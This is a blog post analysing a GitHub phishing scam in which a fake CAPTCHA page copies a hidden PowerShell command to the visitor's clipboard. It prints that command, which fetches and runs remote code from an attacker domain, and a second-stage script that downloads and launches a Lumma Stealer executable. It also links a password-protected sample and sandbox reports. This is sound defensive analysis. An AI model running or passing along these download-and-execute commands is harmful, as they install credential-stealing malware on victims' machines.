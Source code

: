 ```yaml
---
slug: 2024-09-19-github-security-vuln-scam
title: Exploring a Github Security Vulnerability scam.
authors: [hirusha]
tags: [security,scam]
---
```


Today, I received an email claiming that a security vulnerability had been detected in one of my GitHub repositories. Typically, I receive security notifications from Dependabot, which direct me back to GitHub for further action.

However, this email was unusual. It prompted me to visit an external site, github-scanner.com, rather than linking to GitHub. The email was tied to an issue opened in my repository, urging me to visit this unknown link for more information on how to resolve the issue.

![alt text](image.png)

<!--truncate-->

Fortunately, GitHub quickly identified the issue as fraudulent and removed it from my repository.

![alt text](image-1.png)

However, I still had the content of the malicious issue in my email. Out of curiosity, I clicked on the link provided.

The website asked me to verify that I wasn't a robot. While this process is common when accessing certain websites via VPN, the human verification on this site seemed off—completely custom-built and not at all like the standard verifications by services such as Cloudflare.

![alt text](image-2.png)

After clicking the verification button, a text snippet (a PowerShell command) was automatically copied to my clipboard. The website then instructed me to paste and run the command using the `Run` dialog.

This is highly suspicious since legitimate human verification methods typically involve solving a CAPTCHA or recognizing images or audio.

![alt text](image-3.png)

Here’s the PowerShell command that was copied to my clipboard:

```
powershell.exe -w hidden -Command "iex (iwr 'https://github-scanner.com/download.txt').Content" # "✅ ''I am not a robot - reCAPTCHA Verification ID: 93752"
```

Breaking Down the Command

- `powershell.exe -w hidden` runs PowerShell in hidden mode, meaning no console window is visible to the user.
- `-Command "iex (iwr 'https://github-scanner.com/download.txt').Content"` fetches content from `https://github-scanner.com/download.txt` and executes it immediately.
    - `iex` (short for `Invoke-Expression`) executes a string as a command.
    - `iwr` (short for `Invoke-WebRequest`) sends a request to the specified URL.
    - `.Content` extracts the contents of the web request.
- The comment `# "✅ ''I am not a robot - reCAPTCHA Verification ID: 93752"` is there to mislead the user, implying the text is harmless and related to the verification process.

This is what the command looks like when pasted into the Run dialog:

![alt text](image-25.png)

Analyzing the Downloaded Script

The URL `https://github-scanner.com/download.txt` contains the following PowerShell script:

```ps1
$WebClient = New-Object System.Net.Webclient
$url1 = "https://gitub-scanner.com/l6E.exe"
$filePath1 = "$env:TEMP\SysSetup.exe"
$webClient.DownloadFile($url1, $filePath1)
Start-Process -FilePath $env:TEMP\SysSetup.exe
```

Let's break it down:

- `$WebClient = New-Object System.Net.Webclient` creates an instance of the `WebClient` class, which is used to download files.
- `$url1 = "https://github-scanner.com/l6E.exe"`specifies the URL of the file to be downloaded.
- `$filePath1 = "$env:TEMP\SysSetup.exe"` defines where the file will be saved (in the temp folder, under the name SysSetup.exe to appear legitimate).
- `$webClient.DownloadFile($url1, $filePath1)` downloads the file and stores it in the specified location.
- `Start-Process -FilePath $env:TEMP\SysSetup.exe` runs the downloaded file.

![alt text](image-4.png)


The infected file can be downloaded from [here](./l6E.exe.bin-infected.zip). The password for this file is: `infected`. 

Static Analysis with VirusTotal

Running a static analysis through VirusTotal shows that only 12 antivirus engines detected this file as malicious. It appears to be a common stealer, but the low detection rate suggests it might be packed in a way that evades many detection systems. You can view the report [here](https://www.virustotal.com/gui/url/b64a25fef85ad988dee3ds3b772ea60dc4d53333cd0857924745c000ff858c5eb).

![alt text](image-14.png)

Interestingly, there’s already a comment on VirusTotal from someone who encountered the scam through a similar method.

![alt text](image-15.png)


Dynamic Analysis with Any.Run

I ran the sample through Any.Run for dynamic analysis. You can view the report [here](https://app.any.run/tasks/8ac63e3e-621c-4d47-b832-73dad43c208c).

![alt text](image-5.png)

The stealer connects to several unknown hosts, likely for redundancy. If one IP or domain gets taken down, the stealer can still communicate with others.

Suricata, an open-source intrusion detection system, has identified this as the ["LUMMA Stealer"](https://malpedia.caad.fkie.fraunhofer.de/details/win.lumma)

![alt text](image-7.png)


![alt text](image-6.png)    


Further Dynamic Analysis with Triage

I submitted the sample for further analysis using Triage. You can view the full report [here](https://tria.ge/240919-fczkva1gja/behavioral1).

The stealer performs several discovery techniques, including browser information discovery, and tries to contact multiple domains.

![alt text](image-9.png)


Investigating the IP Address

I looked up the IP address hosting the web server, which provided information about the hosting provider and an email address to report abuse.

![alt text](image-8.png)

![alt text](image-10.png)

![alt text](image-11.png)

![alt text](image-12.png)


WHOIS Lookup of the Domain

Here’s the WHOIS information for `github-scanner.com`:

```yaml
   Domain Name: GITHUB-SCANNER.COM
   Registry Domain ID: 2917879423_DOMAIN_COM-VRSN
   Registrar WHOIS Server: whois.webnic.cc
   Registrar URL: http://https://www.webnic.cc
   Updated Date: 2024-09-18T12:34:24Z
   Creation Date: 2024-09-18T12:34:24Z
   Registry Expiry Date: 2025-09-18T12:34:24Z
   Registrar: Web Commerce Communications Limited dba WebNic.cc
   Registrar IANA ID: 460
   Registrar Abuse Contact Email: compliance_abuse@webnic.cc
   Registrar Abuse Contact Phone: +60.189836788
   Domain Status: ok https://icann.org/epp#ok
   Name Server: CODY.NS.CLOUDFLARE.COM
   Name Server: MARGOT.NS.CLOUDFLARE.COM
   DNSSEC: unsigned
   URL of the ICANN Whois Inaccuracy Complaint Form: https://www.icann.org/wicf/
>>> Last update of whois database: 2024-09-19T04:59:15Z <<<

...

The Registry database contains ONLY .COM, .NET, .EDU domains and
Registrars.


Domain Name: GITHUB-SCANNER.COM
Registry Domain ID: 2917879423_DOMAIN_COM-VRSN
Registrar WHOIS Server: whois.webnic.cc 
Registrar URL: http://www.webnic.cc 
Updated Date: 2024-09-18T12:41:20Z
Creation Date: 2024-09-18T12:34:24Z
Expiration Date: 2025-09-18T00:34:24Z
Registrar: WEBCC 
Registrar IANA ID: 460 
Registrar Abuse Contact Email: compliance_abuse@webnic.cc 
Registrar Abuse Contact Phone: +60.389966799 
Domain Status: ok https://icann.org/epp#ok 
Registry Registrant ID: Not Available From Registry
Registrant Name: Domain Admin 
Registrant Organization: Whoisprotection.cc
Registrant Street: L4-E-2, Level 4, Enterprise 4, Technology Park Malaysia, Bukit Jalil
Registrant City: Kuala Lumpur
Registrant State/Province: Wilayah Persekutuan
Registrant Postal Code: 57000
Registrant Country: Malaysia
Registrant Phone: +60.389966788
Registrant Phone Ext: 
Registrant Fax: +603.89966788
Registrant Fax Ext: 
Registrant Email: reg_21331022@whoisprotection.cc
Registry Admin ID: Not Available From Registry
Admin Name: Domain Admin 
Admin Organization: Whoisprotection.cc
Admin Street: L4-E-2, Level 4, Enterprise 4, Technology Park Malaysia, Bukit Jalil
Admin City: Kuala Lumpur
Admin State/Province: Wilayah Persekutuan
Admin Postal Code: 57000
Admin Country: Malaysia
Admin Phone: +60.389966788
Admin Phone Ext: 
Admin Fax: +603.89966788
Admin Fax Ext: 
Admin Email: adm_21331022@whoisprotection.cc
Registry Tech ID: Not Available From Registry
Tech Name: Domain Admin 
Tech Organization: Whoisprotection.cc
Tech Street: L4-E-2, Level 4, Enterprise 4, Technology Park Malaysia, Bukit Jalil
Tech City: Kuala Lumpur
Tech State/Province: Wilayah Persekutuan
Tech Postal Code: 57000
Tech Country: Malaysia
Tech Phone: +60.389966788
Tech Phone Ext: 
Tech Fax: +603.89966788
Tech Fax Ext: 
Tech Email: tec_21331022@whoisprotection.cc
Name Server: CODY.NS.CLOUDFLARE.COM
Name Server: MARGOT.NS.CLOUDFLARE.COM
DNSSEC: unsigned

URL of the ICANN WHOIS Data Problem Reporting System: https://www.icann.org/wicf
>>> Last update of WHOIS database: 2024-09-19T04:59:24Z <<<
does not guarantee its accuracy. By submitting a WHOIS query, you agree 
that you will use this Data only for lawful purposes and that, under no 
circumstances will you use this Data to:

...
```
